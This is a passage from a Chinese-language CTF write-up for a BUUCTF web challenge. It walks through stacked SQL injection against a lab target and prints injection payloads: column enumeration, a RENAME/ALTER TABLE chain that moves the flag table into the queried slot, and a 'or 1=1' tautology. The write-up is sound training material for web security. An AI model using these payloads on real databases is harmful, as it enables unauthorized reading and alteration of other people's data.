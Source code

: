 ```sql
1';show columns from `1919810931114514`;#
```

![image-20200909113427125](BUUCTF——Web.assets/image-20200909113427125.png)

>此处需要特别注意！   单引号（’）和反引号（`）在使用时是有区别的
>
>在linux下不区分，windows下区分。
>
>区别：
>
>单引号（’）或双引号主要用于字符串的引用符号
>
>```mysql
>mysql>select 'hello',"hello";
>```
>
>反引号（`）主要用于数据库、表、索引、列和别名的引用符号     （Esc下面的键）
>```mysql
>mysql>select * from `table` where `from` = `abc`;
>```
输入
>`1';show columns from` words`;#`
>字段使用的是反引号（`）

![image-20200909121005861](BUUCTF——Web.assets/image-20200909121005861.png)
根据已知条件可知本题没有过滤rename和alert，所以可以把表、列都改名，因为默认的输出是在words中的。把表名改成words，列名改为id。
payload：
```mysql
1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;#
```
然后只需要在输入框中输入
```mysql
1' or '1'='1
```
即可返回flag的值。
